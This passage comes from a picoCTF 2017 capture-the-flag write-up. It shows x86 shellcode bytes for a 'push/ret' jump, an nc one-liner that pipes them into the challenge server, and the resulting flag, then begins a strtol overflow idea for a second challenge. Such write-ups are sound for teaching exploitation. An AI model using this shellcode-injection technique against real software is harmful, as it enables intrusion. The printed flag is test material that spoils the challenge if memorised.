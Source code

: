 <table>
<thead>
<tr>
  <th>Assembly</th>
  <th>ByteCode</th>
</tr>
</thead>
<tbody><tr>
  <td>push 0x8048540</td>
  <td>\x68\x40\x85\x04\x08</td>
</tr>
<tr>
  <td>ret</td>
  <td>\xC3</td>
</tr>
</tbody></table>


<p>Now we just have to pipe the bytes into the program. </p>



<pre class="prettyprint"><code class="language-no-highlight">(echo -e  "\x68\x40\x85\x04\x08\xC3" ; cat -) | nc shell2017.picoctf.com 55049  </code></pre>

<p>The flag we get is <strong>790fe1a8c59ae1e7607273ace0014dfc</strong>                                                      </p>

<p>References:</p>

<ul>
<li><a href="https://www.rcesecurity.com/2011/12/buffer-overflow-exploitation-jump-to-shellcode-via-push-espret/">Buffer Overflow Exploitation: Jump to shellcode via PUSH ESP, RET</a></li>
<li><a href="https://defuse.ca/online-x86-assembler.htm#disassembly">Online x86 / x64 Assembler and Disassembler</a></li>
</ul>



<h4 id="guess-the-number">Guess The Number</h4>

<blockquote>
  <p>Just a simple number-guessing game. How hard could it be? <a href="https://webshell2017.picoctf.com/static/7e1f593a35e6300f1949a3a200d9b98b/guess_num">Binary</a> <a href="https://webshell2017.picoctf.com/static/7e1f593a35e6300f1949a3a200d9b98b/guess_num.c">Source</a>. Connect on shell2017.picoctf.com:40780.</p>
</blockquote>

<p>The strtol is a function that interprets an integer value in a byte string. </p>



<pre class="prettyprint"><code class="language-no-highlight">long int strtol(const char *str, char **endptr, int base)</code></pre>

<p>Strtol is what takes our input, which is originally a 32-bit integer.  Perhaps we can overflow it with the register that has the win function in the guess_num.c code. </p>

<p>Important things to note:</p>
